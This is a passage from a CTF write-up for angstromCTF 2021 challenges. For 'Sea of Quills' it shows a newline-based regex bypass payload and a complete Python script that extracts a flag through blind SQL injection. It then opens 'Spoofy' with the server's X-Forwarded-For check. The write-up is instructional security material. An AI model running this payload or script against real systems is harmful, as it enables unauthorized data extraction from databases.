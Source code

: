 After some fails I remembered that regex matching in ruby can be broken using \n , I was so dumb to forget something this important. I opted to the following payload in limit parameter to perform a blind SQL injection:

```
10%0a%20and%20((select%20substr(flag,{count},1)%20from%20flagtable)%20%3d%3d%20"{sub}"%20);
```

**%0a** to break the regex and escape it , then we will iterate over all the characters of the flag , if we have a correct letter the response will contain the values passed in cols as mentioned in the picture below :

![TASK](https://imgur.com/BDSTqTQ.png) 

This is my final exploit to exfiltrate the flag char by char:

```python

import string,requests
from urllib.parse import unquote
data={"offset":"7","cols":"999999999,5,6"}
url="https://seaofquills-two.2021.chall.actf.co/quills"
chars=string.printable
flag=""
i=36
print("[+] Started")
while "}" not in flag:
        for char in chars:
                payload='10%0a%20and%20((select%20substr(flag,{count},1)%20from%20flagtable)%20%3d%3d%20"{sub}"%20);'.format(count=str(i),sub=char)
                data["limit"]=unquote(payload)
                r=requests.post(url,data=data)
                if "999999999" in r.text:
                        flag=flag+char
                        i=i+1
                        print("[+] "+flag)
                        break


```

## Spoofy ##

![TASK](https://imgur.com/QAbO9JZ.png)

We are given the source code as always ( Best thing about this CTF ), we have to pass the following check in order to get the flag.

```python

    if "X-Forwarded-For" in request.headers:
        # https://stackoverflow.com/q/18264304/
        # Some people say first ip in list, some people say last
        # I don't know who to believe
        # So just believe both
        ips: List[str] = request.headers["X-Forwarded-For"].split(", ")
        if not ips:
            return text_response("How is it even possible to have 0 IPs???", 400)
        if ips[0] != ips[-1]:
            return text_response(
                "First and last IPs disagree so I'm just going to not serve this request.",
                400,
            )
        ip: str = ips[0]
        if ip != "1.3.3.7":
            return text_response("I don't trust you >:(", 401)
```